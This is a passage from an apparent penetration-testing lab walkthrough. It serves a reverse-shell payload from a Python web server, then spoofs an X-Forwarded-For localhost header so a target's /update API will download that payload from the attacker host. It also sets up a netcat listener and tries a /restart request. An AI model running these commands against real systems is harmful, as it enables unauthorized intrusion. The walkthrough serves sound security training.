We can host it over HTTP with a basic python web server.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next, we’ll upload our reverse shell by sending the required POST request to the **/update** endpoint.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.120.149:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.118.5/shell"}'
Update requested by clumsyadmin. Restart the software for changes to take effect.
```

We see a *200-OK* hit on our web server. It looks like the API successfully downloaded the payload.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.149 - - [12/Mar/2021 08:26:34] "GET /shell HTTP/1.1" 200 -
```

The API is now telling us to target the **/restart**  endpoint to initiate service restart. The usage guide says that this  request should be a GET. We’ll first set up a Netcat listener to catch  our shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
```

With our listener started, we’ll issue the GET request to restart the service. Unfortunately, it does not seem to work.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/restart -H "X-Forwarded-For: localhost"
<html>
    <head>
        <title>Remote Service Software Management API</title>
        <script>
            function restart(){
                if(confirm("Do you really want to restart the app?")){
                    var x = new XMLHttpRequest();
                    x.open("POST", document.URL.toString());
                    x.send('{"confirm":"true"}');
                    window.location.assign(window.location.origin.toString());
                }
            }
        </script>
    </head>
    <body>
    <script>restart()</script>
    </body>
</html>
```

